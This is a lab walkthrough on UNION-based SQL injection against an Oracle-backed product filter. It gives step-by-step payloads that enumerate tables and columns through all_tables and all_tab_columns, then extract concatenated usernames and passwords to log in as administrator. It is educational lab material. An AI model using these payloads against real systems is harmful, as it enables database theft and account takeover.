 # 🛠️ SQL Injection Walkthrough: Listing Database Contents on Oracle  
## 🔍 Step-by-Step Guide to Solving the Lab  

## 🎯 Objective

**To exploit a SQL injection vulnerability in the product category filter and extract usernames and passwords from an Oracle database — ultimately logging in as the administrator.**

This lab simulates a real-world scenario where:
- The backend uses **Oracle Database**.
- You can view query results directly in the application response.
- There's a hidden table containing login credentials.

## 🧪 Lab Overview

You're targeting a vulnerable URL parameter:

```
GET /filter?category=<INJECT_HERE>
```

The application displays query results — making it ideal for **UNION-based SQL injection attacks**.

## 🧭 Step-by-Step Walkthrough

### 🔹 Step 1: Confirm SQL Injection Vulnerability

Start by testing if the input is injectable.

```http
GET /filter?category='
```

✅ If it breaks the query or shows an error → SQL injection point exists.

### 🔹 Step 2: Determine Number of Columns Using `ORDER BY`

Try using `ORDER BY` to guess how many columns are returned.

```http
GET /filter?category='+ORDER+BY+1-- 
GET /filter?category='+ORDER+BY+2-- 
GET /filter?category='+ORDER+BY+3-- 
```

✅ Confirmed: There are **2 columns**, since `ORDER BY 3` causes an error.

### 🔹 Step 3: Use `UNION SELECT` to Inject Data

Now try injecting data using `UNION SELECT`.

```http
GET /filter?category='+UNION+SELECT+NULL,NULL-- 
```

❌ Fails → Likely because Oracle requires all `SELECT` statements to include a `FROM` clause.

So, try Oracle-specific syntax using the built-in dummy table `DUAL`:

```http
GET /filter?category='+UNION+SELECT+NULL,NULL+FROM+DUAL-- 
```

✅ Works → Confirmed backend is **Oracle**.

### 🔹 Step 4: Find Which Column Displays Text

Test which of the two columns displays text:

```http
GET /filter?category='+UNION+SELECT+'a',NULL+FROM+DUAL--   → ✅ Output shown  
GET /filter?category='+UNION+SELECT+NULL,'b'+FROM+DUAL--   → ✅ Output shown  
```

✅ Confirmed: Both the **column** is visible.

So, all useful injected data must be placed in the any column but i select **second column**.

### 🔹 Step 5: Retrieve Database Version

Use Oracle’s built-in `v$version` view to get version info:

```http
GET /filter?category='+UNION+SELECT+NULL,banner+FROM+v$version-- 
```

✅ Output:
```
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production
```

→ Confirmed running **Oracle 11g**.

### 🔹 Step 6: List All Tables in the Database

Now that we know it's Oracle, use system views like `all_tables`:

```http
GET /filter?category='+UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables-- 
```

✅ Returns list of tables including:
- `APP_USERS_AND_ROLES`
- `USERS_MTWTMO`

Both look promising — investigate both.

### 🔹 Step 7: Enumerate Columns in Potential User Tables

#### For `APP_USERS_AND_ROLES`:
```http
GET /filter?category='+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name='APP_USERS_AND_ROLES'-- 
```

Returns:
- `GUID`
- `ISROLE`
- `NAME`

Not helpful for login — move on.

#### For `USERS_MTWTMO`:
```http
GET /filter?category='+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name='USERS_MTWTMO'-- 
```

Returns:
- `USERNAME_ECFLEX`
- `PASSWORD_AXFBYV`
- `EMAIL`

Looks like a valid user table with credentials.

### 🔹 Step 8: Extract Username & Password Fields

Since only one column is visible, concatenate both fields together using Oracle’s `||` operator.

Use a separator like `~` to distinguish between values:

```http
GET /filter?category='+UNION+SELECT+NULL,USERNAME_ECFLEX||'~'||PASSWORD_AXFBYV+FROM+USERS_MTWTMO-- 
```

✅ Output:
```
administrator~uevppxxxxxxxxx
carlos~16ks0f63xxxxxpxxxxxxxxx
wiener~kxb9xxxxxxxxxxxxxxxx
```

### 🔹 Step 9: Log In as Administrator

With the credentials extracted:

- **Username:** `administrator`  
- **Password:** `uevppxxxxxxxxxxxxxx`

Go to the login page and log in as the administrator → ✅ Lab solved!

## 📋 Summary of Payloads Used

| Goal | Payload |
|------|---------|
| Confirm vuln | `'` |
| Check column count | `' ORDER BY 1--` through `' ORDER BY 3--` |
| UNION select test (Oracle) | `' UNION SELECT NULL,NULL FROM DUAL--` |
| Identify visible column | `' UNION SELECT NULL,'a' FROM DUAL--` |
| Get DB version | `' UNION SELECT NULL,banner FROM v$version--` |
| List all tables | `' UNION SELECT NULL,TABLE_NAME FROM all_tables--` |
| Get columns of users table | `' UNION SELECT NULL,COLUMN_NAME FROM all_tab_columns WHERE table_name='USERS_MTWTMO'--` |
| Extract username + password | `' UNION SELECT NULL,USERNAME_ECFLEX||'~'||PASSWORD_AXFBYV FROM USERS_MTWTMO--` |

## 🧠 Key Oracle-Specific Notes

| Feature | Oracle Behavior |
|--------|------------------|
| Requires `FROM` clause | Every `SELECT` must include a `FROM` statement |
| Dummy table | Use `DUAL` as placeholder |
| String concatenation | Use `||` operator |
| System metadata views | Use `all_tables`, `all_tab_columns`, `v$version` |
| Case-sensitive identifiers | Table/column names may be uppercase-only in system views |


## ✅ Final Tip

Oracle has strict SQL syntax rules. Always remember:
> Every `SELECT` needs a `FROM`, even when you're not selecting real data.

And always adapt your payloads based on:
- What the app displays
- How many columns exist
- Which DBMS is running
- Whether comments or keywords are filtered

Happy hacking! 🔥🕵️‍♂️🛡️